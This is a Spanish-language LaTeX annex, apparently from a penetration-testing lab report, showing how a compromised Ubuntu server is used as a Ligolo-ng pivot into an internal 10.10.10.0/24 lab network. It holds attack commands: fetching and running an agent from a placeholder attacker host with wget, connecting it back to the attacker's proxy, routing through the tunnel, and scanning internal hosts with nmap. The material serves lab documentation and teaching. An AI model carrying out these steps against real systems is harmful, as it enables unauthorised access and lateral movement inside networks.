\crearanexo{Pivoting hacia la red interna mediante Ligolo-ng}{anexo:pivoting_ligolo}

% ---------------------------------------------------

\subsubsection*{Objetivo}

El objetivo de esta fase es utilizar el servidor Ubuntu comprometido como punto de pivote para acceder a la red interna \texttt{10.10.10.0/24}, inicialmente inaccesible desde la máquina atacante.

\subsubsection*{Identificación de la red interna}

Tras obtener acceso SSH al servidor Ubuntu con el usuario \texttt{dev}, se comprueban las interfaces de red disponibles:

\begin{bashbox}
whoami
hostname
hostname -I
ip a
\end{bashbox}

El resultado esperado muestra una dirección perteneciente a la red externa y otra correspondiente a la red interna del laboratorio:

\begin{configbox}
dev
servidor-victima
192.168.1.216 10.10.10.10 172.17.0.1 172.18.0.1
\end{configbox}

La presencia de la dirección \texttt{10.10.10.10} indica que el servidor comprometido tiene conectividad con una red interna adicional.

\subsubsection*{Arquitectura observada}

\begin{configbox}
Kali Linux
192.168.1.165
       |
       v
Servidor Ubuntu comprometido
192.168.1.216
10.10.10.10
       |
       v
Red interna
10.10.10.0/24
\end{configbox}

El atacante no puede alcanzar directamente la red interna desde Kali, por lo que se utiliza Ligolo-ng para crear un túnel transparente a través del servidor comprometido.

\subsubsection*{Inicio del proxy en Kali}

En la máquina atacante se descomprime Ligolo-ng y se inicia el proxy:

\begin{bashbox}
tar xvf ligolo-ng_proxy_0.8.3_linux_amd64.tar.gz
sudo ./proxy -selfcert
\end{bashbox}

El proxy queda escuchando por defecto en el puerto \texttt{11601}:

\begin{configbox}
INFO Listening on 0.0.0.0:11601
\end{configbox}

\subsubsection*{Transferencia del agente al servidor Ubuntu}

Desde Kali se puede levantar un servidor HTTP temporal:

\begin{bashbox}
python3 -m http.server 8000
\end{bashbox}

Desde el servidor Ubuntu comprometido se descarga el agente:

\begin{bashbox}
wget http://<IP_ATACANTE>:8000/agent
chmod +x agent
\end{bashbox}

\subsubsection*{Conexión del agente}

Desde el servidor comprometido se conecta el agente al proxy de Kali:

\begin{bashbox}
./agent -connect <IP_ATACANTE>:11601 -ignore-cert
\end{bashbox}

En la consola de Ligolo debe aparecer una nueva sesión:

\begin{configbox}
INFO Agent joined
\end{configbox}

\subsubsection*{Selección de sesión}

Dentro de la consola de Ligolo:

\begin{configbox}
session
\end{configbox}

Se selecciona la sesión correspondiente al servidor Ubuntu comprometido:

\begin{configbox}
session 1
\end{configbox}

\subsubsection*{Creación de la interfaz TUN}

En Kali se crea una interfaz virtual denominada \texttt{ligolo}:

\begin{bashbox}
sudo ip tuntap add user $(whoami) mode tun ligolo
sudo ip link set ligolo up
ip a
\end{bashbox}

\subsubsection*{Configuración de rutas}

Se añade una ruta hacia la red interna del laboratorio:

\begin{bashbox}
sudo ip route add 10.10.10.0/24 dev ligolo
ip route
\end{bashbox}

El resultado debe incluir:

\begin{configbox}
10.10.10.0/24 dev ligolo
\end{configbox}

\subsubsection*{Inicio del túnel}

Dentro de la consola de Ligolo se inicia el túnel:

\begin{configbox}
start
\end{configbox}

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.85\textwidth]{Imagenes/ligolo.png}

    \vspace{0.2cm}
    \captionazul{Túnel de pivoting establecido hacia la red interna mediante Ligolo-ng.}
    \label{fig:anexo_ligolo_pivoting}
\end{figure}

\subsubsection*{Descubrimiento de hosts internos}

Con el túnel activo, se realiza descubrimiento de hosts sobre la red interna:

\begin{bashbox}
sudo nmap -sn 10.10.10.0/24
\end{bashbox}

Resultado esperado:

\begin{configbox}
10.10.10.10   Servidor Ubuntu
10.10.10.20   DEV01
10.10.10.5    DC01
\end{configbox}

